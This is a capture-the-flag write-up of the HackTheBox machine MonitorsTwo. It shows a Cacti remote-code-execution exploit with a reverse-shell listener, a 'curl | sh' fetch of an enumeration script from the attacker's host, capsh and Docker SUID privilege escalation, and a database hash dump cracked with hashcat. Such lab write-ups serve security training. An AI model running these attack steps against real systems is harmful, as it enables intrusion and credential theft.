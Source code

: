 ```yaml
---
title: "HTB - MonitorsTwo"
date: "11/10/2024"
description: "Write-up of the MonitorTwo machine on HackTheBox."
tags: ["HackTheBox"]
image: "https://shigatena.dev/articles/htb_monitorstwo.png"
readingTime: "10"
---
```


![preview](https://miro.medium.com/v2/resize:fit:1400/1*fGQbeX4aQAe3lLtaRX02tQ.png)

## Initial Reconnaissance

We begin by scanning the machine using nmap.

```bash
nmap -sC -sV [BOX_IP]
```

We can see that the port 80 is open. The application running on it is **cacti v1.2.22**. A quick search leads to an exploit for this version at the following GitHub repository: [CVE-2022-46169-CACTI-1.2.22](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22).

## Web Vulnerability Exploitation

```bash
git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```
```bash
nc -lvnp [YOUR_PORT]
```
```bash
python CVE-2022-46169.py -u http://[BOX_IP] --LHOST=[YOUR_IP] --LPORT=[YOUR_PORT]
```

Boom, we are inside the server.

## Privilege Escalation

On our machine, we set up a Python web server and pull [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest) to help with further enumeration.

```bash
sudo python3 -m http.server 80
```
```bash
curl http://[YOUR_IP]/linpeas.sh | sh
```

LinPEAS indicates a vulnerability with `capsh`. Using the ressources found on [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/), we find a way to exploit this vulnerability:

```bash
capsh --gid=0 --uid=0 --
```

Executing `whoami` confirms that we are root.

## Server Discovery

Navigating to the root directory, we locate `entrypoint.sh`. We can look into it with `cat` and then execute it.

```bash
chmod +x entrypoint.sh
./entrypoint.sh
```
We can see that this file requests the database for data with `root` as username and password.

We can take a look inside the different tables : 

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"
```

From the result of the previous command, we notice the `user_auth` table. We can take a look inside with the following command:

```bash
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
```

This command reveals password hashes for 3 users (admin, guest, marcus). We store the hashes of admin and marcus in `hashes.txt` and we will use hashcat to attempt a dictionary attack:

```bash
hashcat -m 3200 -a 0 hashes.txt rockyou-75.txt
```

From hashcat, we get the password `funkymonkey` for the user `marcus`. 

## Lateral Movement

Using this information and the fact that nmap also reported us port 22 (SSH) was open, we attempt an SSH login:

```bash
ssh marcus@[BOX_IP]
```

Once inside, a quick `ls` shows the `user.txt` file which grants us the user flag.

## New Privilege Escalation

To continue our efforts towards root access, we once again fetch `linpeas.sh` from our Python webserver. We identify Docker's presence on the machine. 
The Docker version installed, **20.10.5+dfsg1**, is vulnerable to an exploit found on GitHub: [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091).

Go back to your machine and clone the PoC repository.

```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091
```

```bash
cd /tmp
curl http://[YOUR_IP]/exp.sh > exp.sh
chmod +x exp.sh 
./exp.sh
```

The script asks you to execute the following command on the Docker environment (that we previously rooted).

```bash
chmod u+s /bin/bash
```

Navigate to the directory provided in the output of the script and execute:

```bash
./bin/bash -p
```

This grants us a root shell. To find the `root.txt` file, we can use the following command:

```bash
find / -type f -name root.txt 2>/dev/null 
```

Reading its content with `cat /root/root.txt` gives us the root flag.
Happy rooting :)